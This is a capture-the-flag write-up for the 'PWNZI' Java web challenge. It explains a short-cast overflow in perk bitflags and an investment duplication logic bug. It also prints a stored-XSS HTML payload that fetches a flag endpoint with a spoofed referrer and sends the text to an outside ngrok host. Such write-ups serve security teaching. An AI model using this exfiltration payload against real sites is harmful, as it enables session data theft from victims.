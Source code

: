 
# PWNZI

![entry](entry.png)

Opening up the challenge, the first thing I see in the source is a link to jar file
https://pwnzi.ctf.spamandhex.com/pwnzi.jar

Decompiled using `Procyon` we get the complete source of the backend. It was a java application running on Spring Framework.

## FLAG #1

So the premise of the application was simple, you get 800,000$ to start. You also have options to buy certain perks if you meet the criteria of expected interests from your investments.
```
For 100,000$ you can buy the perk to upload images
For 1,300,000$ you can buy the perk to upload any content
For 1,400,000$ you can buy the perk to view flag1
```

The file `hu.spamandhex.pwnzi.PwnziController.java` contained most of the application logic.
However looking at the code of `/claim-perk` route

```
        if (user.hasPerk(perk)) {
            throw new PwnziException("perk already credited");
        }
        if (perk == Perks.FLAG) {
            throw new PwnziException("sry, you have to work a bit harder for the flag");
        }
```

It became clear even if you have 1,400,000$ you wouldn't get the flag.

So I started looking around the logic of how perks were stored and alloted.

```
    // data/User.java
    
    private short perks;
    
    public boolean hasPerk(final int perk) {
        return (this.perks & 1 << perk) != 0x0;
    }
    
    public void addPerk(final int perk) {
        this.perks |= (short)(1 << perk);
    }
 ```
 
 Simplyfing the above, it was a simple bit positioned flags.
 Eg. The bit at 1st index (from 0) would tell you if you had the perk 1.
 The Perk flag had the value 14 so to have that perk 14th bit index needed to 1 ie `perk = 0b100000000000000`
 
 So we needed to set the 14th bit without actually requesting the perk 14 which was not allowed.
 
 The vulnerability was in the `(short)` integer-to-short casting. As an integer can take much larger values, anything that does not fit in 2 bytes would overflow.
 
 So here is a quick script I wrote to test if any other perk would set the 14th bit after overflowing.
 
```
for(int i=1;i<100;i++){
    short newperk = (short)(1 << i);
    if((newperk & 1 << 14) != 0){
            System.out.println("int : " + i);
    }
}
```

Output
```
int : 14
int : 46
int : 78
```

So if I claim 46 perk, it would overflow and give me the perk 14.
So now I needed investment interests returns of 4,600,000.

On the investment page, the max possible return could be achieved if we do 8 investments of 100,000 each with each investment containing one children and so on.
```
A -> B -> C -> D -> E -> F -> G -> H
```
This will give us max legitimate investment returns as the code calculates investments of each children in its parent as welll.
This gave me `1377565.63 $` return, enough to buy unrestricted upload perk but not perk 46.

Looking at the file upload code, hoping to find some vulnerability I found out that it actually does not store uploaded content as files on disk, rather it stores them in a database.
So there was nothing to look further.

Back to the investment code, I saw that the investments and their parent children relationship were actually tracked by just their name
by using the function `findByOwnerAndName`, so there could be someway to fool the expected interest logic.

And it turned out to be very simple.
First add multiple root investments of the same name.

![investment](investment.png)

Now if you add one investment child to any one, you'll notice the investment being replicated to all the root investments without spending the money.

![investment_bug](investment_bug.png)

So now using this hack the maximum return you can get by replicating childs is just a little above 4,600,000. Exactly what you need.
No go and claim `/claim-perm?perk=46` and enjoy the flag.

## FLAG #2,3

Now the route '/flag2' and '/flag3' had similar logic

```
this.checkRefererIsProfilePage(request);
final User user = this.currentUser(session);
final String t = this.isAdmin(user) ? this.config.getFlag2() : "only admin can see this";
return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
```

This was a classic XSS - adminbot type of chal.
We need to find a XSS and report it to admin, admin will visit the page triggering our js payload and giving us the flag.

Now this turned out to be very very easy, I did not understand how it had such few solves and certain teams only managing to solve one because the exploit for both was exactly the same.


On the profile page, claim the perk of unrestricted file upload. We have more than 4600,000.
Now the logic to view a file was this

```
    @GetMapping({ "/files-{userUuid}-{fileName}" })
    public ResponseEntity<byte[]> getFile(@PathVariable("userUuid") final String userUuid, @PathVariable("fileName") final String fileName) {
        return (ResponseEntity<byte[]>)
          this.users.findByUuid(userUuid)
          .flatMap(user -> this.files.findByOwnerAndName(user, fileName))
          .map(file -> ResponseEntity.ok()
          .contentType(MediaType.parseMediaType(file.getContentType()))
          .body((Object)file.getContent())).orElseGet(() -> ResponseEntity.notFound().build());
    }
```
So this sent the file in with its orignal mime type. So we can just upload a html page and we have xss.

Now we need to fetch the `/flag2` endpoint from javascript, but the catch is its referrer must be the `/profile` page.
This is very simple, just set the referrer manually.

At this point I thought surely outbound requests must be blocked and the challenge would be to do so tricky exfilteration but no, a simple fetch worked.

```
<script>
function myFunction() {
  fetch("/flag1",{referrer:"https://pwnzi.ctf.spamandhex.com/profile.html"}).then(resp => resp.text()).then(text => {
        fetch("https://e979154e.ngrok.io/flag="+btoa(text));
  });
}

window.onload = myFunction;
</script>

```

Worked for /flag3 as well. Super easy.


